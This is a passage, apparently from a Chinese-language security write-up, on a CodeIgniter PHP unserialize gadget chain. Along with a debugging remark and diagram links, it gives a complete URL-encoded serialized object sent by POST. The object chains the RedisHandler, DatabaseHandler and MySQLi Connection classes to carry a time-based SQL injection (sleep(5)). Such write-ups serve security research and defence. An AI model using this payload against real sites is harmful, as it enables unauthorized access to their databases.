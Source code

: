 ```	public function simpleQuery(string $sql)
	}
```
为了调试，我们在execute函数的定义位置下调试断点。简单来看也可以这样输出sql.
![blockchain](https://github.com/pang0lin/auto-unsearalize/blob/main/imgs/CI_5.png "CodeIgniter unserialize chain")


```POST: /反序列化的点

a=O%3A39%3A%22CodeIgniter%5CCache%5CHandlers%5CRedisHandler%22%3A1%3A%7Bs%3A5%3A%22redis%22%3BO%3A44%3A%22CodeIgniter%5CSession%5CHandlers%5CDatabaseHandler%22%3A3%3A%7Bs%3A4%3A%22lock%22%3Bs%3A23%3A%22xxx%27%29+and+sleep%285%29+--+a%22%3Bs%3A8%3A%22platform%22%3Bs%3A5%3A%22mysql%22%3Bs%3A2%3A%22db%22%3BO%3A38%3A%22CodeIgniter%5CDatabase%5CMySQLi%5CConnection%22%3A4%3A%7Bs%3A10%3A%22queryClass%22%3Bs%3A27%3A%22%5CCodeIgniter%5CDatabase%5CQuery%22%3Bs%3A6%3A%22connID%22%3Bs%3A3%3A%22xxx%22%3Bs%3A7%3A%22pretend%22%3Bb%3A0%3Bs%3A7%3A%22swapPre%22%3Ba%3A0%3A%7B%7D%7D%7D%7D
```
![blockchain](https://github.com/pang0lin/auto-unsearalize/blob/main/imgs/CI_6.png "CodeIgniter unserialize chain")
